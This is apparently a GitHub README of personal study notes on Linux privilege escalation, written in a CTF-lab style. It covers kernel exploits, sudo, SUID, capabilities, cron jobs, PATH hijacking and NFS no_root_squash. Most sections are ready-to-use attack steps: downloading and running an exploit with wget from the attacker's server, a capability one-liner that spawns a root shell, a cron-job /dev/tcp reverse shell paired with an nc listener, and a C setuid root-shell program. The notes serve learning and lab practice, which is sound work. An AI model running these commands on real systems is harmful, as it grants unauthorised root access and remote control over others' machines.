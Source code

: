 # Linux-Privilege-Escalation
Privilege escalation depends on the target system's setup, including the kernel version, installed applications, and user credentials. There is no single method that works for all cases.
### Introduction

- Privilege escalation depends on the target system’s setup, including the kernel version, installed applications, and user credentials. There is no single method that works for all cases.

### What does "privilege escalation" mean?

- At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one.

### Why is it important?

Privilege escalation means gaining higher permissions from a lower-level account.

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## Privilege Escalation: Kernel Exploits

- first you will know version the kernel from this command (  uname -r )
- when know the version will search about exploit to this by this command ( searchsploit linux kernel 4.15.0  )
- download the exploit by ( searchsploit -m exploit )
- compiler the exploit by (   gcc -o 37292 37292.c -static -D_GNU_SOURCE -pthread -lcap  )
- Transfer the Exploit to the Target System (  python3 -m http.server 8080  )
- Then, use `wget` on the target machine to download the exploit:  (   wget http://<your_ip>:8080/exploit_name.sh   )
- Run the exploit (     ./exploit_name.sh     )
- whoami

## Privilege Escalation: Sudo

- Sudo allows running programs as root. Admins can give specific commands (e.g., Nmap) high privileges to users without full root access, ensuring security while maintaining flexibility.

- Any user can check its current situation related to root privileges using the `sudo -l` command.
- https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.
- when use sudo -l show the program run by root and search in https://gtfobins.github.io/  about the program

## Privilege Escalation: SUID

- Linux controls user access with permissions (read, write, execute). SUID runs a file as its owner, and SGID runs it with the group's permissions, giving extra access when needed.   (  search about file own s in permission )
- `find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
- when found file search about it in the https://gtfobins.github.io/
- ex : base64   `LFILE=file_to_read
./base64 "$LFILE" | base64 --decode`

## Privilege Escalation: Capabilities

- System administrators can use **Capabilities** to give specific privileges to a process or binary without granting full root access.  For example, if a SOC analyst needs to use a tool that requires opening network connections, a regular user cannot do it. without give the user full privileges, the admin can assign the required **Capability** to the tool. This allows the tool to work without needing root access.
- We can use the `getcap` tool to list enabled capabilities.  (   getcap -r / 2>/dev/null  )
- if found cap_setuid+ep  search about the program in https://gtfobins.github.io/
- ex : ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'   you must sure the version of python in the machine

## Privilege Escalation: Cron Jobs

- Cron Jobs are used to run scripts or executables at specific times and operate with the privileges of their owner. If there is a cron job running as root and we can modify the script it executes, our script will run with root privileges.
- Any user can read the file keeping system-wide cron jobs under /etc/crontab
- when found file , The file should contain the :
     - #!/bin/bash
     -  bash -c ‘bash -i >& /dev/tcp/<your-ip>/7777 0>&1’   
- We will now run a listener on our attacking machine to receive the incoming connection. ( nc -nvlp 7777 )

## Privilege Escalation: PATH

- In Linux, the **PATH** variable tells the system where to look for programs when you run a command.
- If you run a command **without a full path**, Linux searches for it in the folders listed in **PATH**.
- If there is a **folder you can edit** inside **PATH**, you can place a fake program with the same name as a real one. When the system runs it, your script will execute instead of the real program.
    - echo $PATH
    - find / -perm -u=s -type f 2>/dev/null   to search about file contain SUID
    - add /tmp to $PATH is the path can i write in   add by (  export PATH=/tmp:$PATH )
    - add the file contain /bin/bash in the same name file in the system (  vim /tmb/thm   or    echo “/bin/bash” > thm    )
    - move the file to /tmb
    - run the file
    
    ## Privilege Escalation: NFS
    

- NFS (Network File Sharing) is a file sharing system between different devices in a network. and when use the ( cat /etc/exports )  and found no_root_squash  ( this vulnerability ) that’s main if i make any command in my machine will work in the victim machine as root
- mount -o rw 10.10.74.23:/tmp /mnt/11
    
    
    | `mount` | Linux command to attach a filesystem |
    | --- | --- |
    | `-o rw` | Mount the filesystem with **read & write** permissions |
    | `10.10.74.23:/tmp` | The NFS shared directory on the **remote machine** (`10.10.74.23`) |
    | `/mnt/11` | The **local mount point** where the remote directory will appear |
- now any thing happen in my machine will happen in victim
- now i will make a reverse shell by ( vim nfs )  ((((((((((((((((((((
    
    #include <unistd.h>  // For setuid() and setgid()
    #include <stdlib.h>  // For system()
    
    int main() {
    setuid(0);  // Set user ID to root
    setgid(0);  // Set group ID to root
    system("/bin/bash -p");  // Spawn a shell with preserved privileges
    return 0;
    }
    

))))))))))))))))))))))))))

- gcc -o nfs nfs.c -static -D_GNU_SOURCE -pthread -lcap
- ./nfs
